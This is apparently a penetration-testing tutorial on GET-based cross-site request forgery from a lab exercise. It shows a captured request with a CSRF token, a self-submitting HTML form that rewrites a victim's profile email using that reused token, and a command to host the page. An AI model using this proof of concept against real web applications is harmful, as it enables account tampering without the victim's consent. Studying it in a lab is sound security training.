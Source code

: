 # Cross-Site Request Forgery (GET-based)

CSRF tokens are designed to protect web applications from unauthorized actions initiated by authenticated users. However, if these tokens are transmitted over unencrypted connections, they can be intercepted and exploited by attackers. Understanding how to extract and utilize CSRF tokens is crucial for penetration testers.

***

#### 🔍 Understanding CSRF Token Vulnerabilities

CSRF tokens are meant to ensure that requests made to a web application are legitimate and originate from authenticated users. If an attacker can sniff these tokens from unencrypted requests, they can craft malicious requests that impersonate the victim.

**Key Characteristics of CSRF Token Vulnerabilities:**

* **Unencrypted Requests**: If CSRF tokens are sent over HTTP instead of HTTPS, they can be intercepted.
* **Predictable Token Values**: If the token values can be guessed or reused, they become less effective as a security measure.

***

#### 🧪 Testing for CSRF Token Vulnerabilities

To test for CSRF token vulnerabilities, follow these steps:

1. **Log into the Target Application**: Use valid credentials to access the application.
2.  **Capture Requests**: Use Burp Suite to intercept requests when performing actions that include CSRF tokens. For example, when saving user data, you might see a request like this:

    {% code overflow="wrap" %}
    ```
    GET /app/save/user@example.com?email=attacker@htb.net&telephone=(227)-750-8112&country=CSRF_POC&action=save&csrf=30e7912d04c957022a6d3072be8ef67e52eda8f2
    ```
    {% endcode %}
3.  **Create a Malicious Web Page**: Craft an HTML page that mimics the legitimate request, including the captured CSRF token. Here’s an example:

    {% code overflow="wrap" %}
    ```html
    htmlCopy Code<html>
      <body>
        <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
          <input type="hidden" name="email" value="attacker@htb.net" />
          <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
          <input type="hidden" name="country" value="CSRF_POC" />
          <input type="hidden" name="action" value="save" />
          <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.getElementById("submitMe").submit()
        </script>
      </body>
    </html>
    ```
    {% endcode %}
4.  **Serve the Malicious Page**: Use a simple HTTP server to host the malicious page. For example, run:

    ```bash
    python -m http.server 1337
    ```
5. **Simulate the Attack**: While logged into the target application, open a new tab and navigate to the URL of the malicious page. This will trigger the CSRF attack, changing the victim's profile details to those specified in the HTML form.

***

#### 📜 Example of a CSRF Token Attack

1. **Login to the Target Application**: Use valid credentials to log in.
2. **Capture the CSRF Token**: Use Burp Suite to intercept the request that includes the CSRF token.
3. **Execute the Attack**: Open the crafted malicious page while still logged in. The profile details will change to those specified in the HTML form.

#### 🌐 Resources for Further Learning

* [Sending form data](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)
